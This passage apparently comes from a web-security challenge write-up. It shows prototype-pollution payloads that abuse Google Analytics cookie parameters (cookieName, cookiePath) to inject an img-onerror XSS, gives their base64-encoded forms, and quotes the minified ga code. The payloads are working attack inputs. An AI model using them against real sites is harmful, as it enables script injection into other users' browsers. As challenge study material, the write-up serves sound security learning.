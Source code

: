 ```js
btoa("__proto__[cookieName]=username%3d<img%20src%3d'x'%20onerror%3dalert(document.domain)>\r\n%3b")

"X19wcm90b19fW2Nvb2tpZU5hbWVdPXVzZXJuYW1lJTNkPGltZyUyMHNyYyUzZCd4JyUyMG9uZXJyb3IlM2RhbGVydChkb2N1bWVudC5kb21haW4pPg0KJTNi"
```

![image1]({{ site.url }}{{ site.baseurl }}/images/xss/a_popup.png){: .align-center}

And we get a pop up with the domain name.


### b. The intended solution
After discussing with someone else who suggested looking at the ga code I saw the following

```js
 , Ad = S("userId", "uid")
      , Na = T("trackingId", "tid")
      , U = T("cookieName", void 0, "_ga")
      , W = T("cookieDomain")
      , Yb = T("cookiePath", void 0, "/")
      , Zb = T("cookieExpires", void 0, 63072E3)
      , Hd = T("cookieUpdate", void 0, !0)
      , Be = T("cookieFlags", void 0, "")
```

There seems to be parameters other than `cookieName` such as `cookiePath`, which we might be able to control using prototype pollution. Lets try crafting another payload with path as `/challenge` to change the document.cookie order.

```js
btoa("__proto__[cookieName]=username%3d<img%20src%3d'x'%20onerror%3dalert(document.domain)>%3b&__proto__[cookiePath]=/challenge%3b")
"X19wcm90b19fW2Nvb2tpZU5hbWVdPXVzZXJuYW1lJTNkPGltZyUyMHNyYyUzZCd4JyUyMG9uZXJyb3IlM2RhbGVydChkb2N1bWVudC5kb21haW4pPiUzYiZfX3Byb3RvX19bY29va2llUGF0aF09L2NoYWxsZW5nZSUzYg=="
```

![image1]({{ site.url }}{{ site.baseurl }}/images/xss/b_popup.png){: .align-center}


And that works too.


